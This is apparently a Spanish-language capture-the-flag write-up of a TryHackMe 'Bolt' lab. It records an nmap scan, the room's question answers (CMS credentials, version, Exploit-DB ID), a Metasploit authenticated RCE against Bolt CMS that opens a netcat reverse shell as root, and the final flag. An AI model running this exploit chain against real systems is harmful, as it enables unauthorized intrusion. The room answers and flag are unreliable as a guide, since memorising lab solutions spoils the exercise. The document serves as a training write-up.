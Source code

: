 
# Objetivo 


# Solución 
┌──(jordan㉿kali)-[~/bolt]
└─$ sudo nmap -sS -T4 10.10.164.231
[sudo] password for jordan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 13:48 CST
Nmap scan report for 10.10.164.231
Host is up (0.61s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 93.80 seconds
                                                                

Navegando en la pagina http://10.10.164.231:8000/  podemos encontrar el nombre de usuario y la contraseña ya que nomas es leer detalladamente lo que se encuentra en la pagina web 


¿Qué número de puerto tiene un servidor web con un CMS en ejecución?
8000
¿Cuál es el nombre de usuario que podemos encontrar en el CMS?
bolt
¿Cuál es la contraseña que podemos encontrar para el nombre de usuario?
boltadmin123
¿Qué versión del CMS está instalada en el servidor? (Ej: Nombre 1.1.1)
bolt 3.7.1
Hay un exploit para una versión anterior de este CMS, que permite RCE autenticado. Encuéntralo en Exploit DB. ¿Cuál es su EDB-ID?
48296


Metasploit Documentation: https://docs.metasploit.com/

msf6 > search  bolt

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       great      Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload

msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/bolt_file_upload) > exit
                                                                                                                                                                
┌──(jordan㉿kali)-[~/bolt]
└─$ msfconsole 
Metasploit tip: Display the Framework log using the log command, learn 
more with help log
                                                  
     ,           ,
    /             \                                                                                                                                             
   ((__---,,,---__))                                                                                                                                            
      (_) O O (_)_________                                                                                                                                      
         \ _ /            |\                                                                                                                                    
          o_o \   M S F   | \                                                                                                                                   
               \   _____  |  *                                                                                                                                  
                |||   WW|||                                                                                                                                     
                |||     |||                                                                                                                                     
                                                                                                                                                                

       =[ metasploit v6.3.55-dev                          ]
+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/




msf6 > 
msf6 > 
msf6 > 
msf6 > search bolt

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       great      Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST 10.2.4.228
LHOST => 10.2.4.228
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOST 10.10.164.231 
RHOST => 10.10.164.231
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt  
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123 
PASSWORD => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.2.4.228:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "vamu".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file uvhuhfir.php.
[+] Used token 299f0ef8c63d001f30262305e8 to create qclkflaff.php.
[*] Attempting to execute the payload via "/files/qclkflaff.php?vamu=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 1 opened (10.2.4.228:4444 -> 10.10.164.231:52684) at 2024-10-19 14:40:20 -0600
[+] Deleted file qclkflaff.php.
[+] Reverted user profile back to original state.


ls
index.html
whoami
root
root
/bin/sh: 6: root: not found
whoami
root
ls 
index.html
cd /root
ls
cd/root
/bin/sh: 11: cd/root: not found
ls
ls
cd /root
ls
find / -name "user.txt"
ls  
^C
Abort session 1? [y/N]  y

[*] 10.10.164.231 - Command shell session 1 closed.  Reason: User exit
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.2.4.228:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "qync".
[*] Found 2 potential token(s) for creating .php files.
[+] Used token 114290de7d963eb9befb7c6f3b to create ttfeeaox.php.
[*] Attempting to execute the payload via "/files/ttfeeaox.php?qync=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.2.4.228:4444 -> 10.10.164.231:52686) at 2024-10-19 14:51:58 -0600
[+] Deleted file ttfeeaox.php.
[+] Reverted user profile back to original state.


whoami
root
root
/bin/sh: 5: root: not found
whoami
root
cd /root
ls
find / -name "flag.txt"
/home/flag.txt
cat /home/flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}



# Notas 

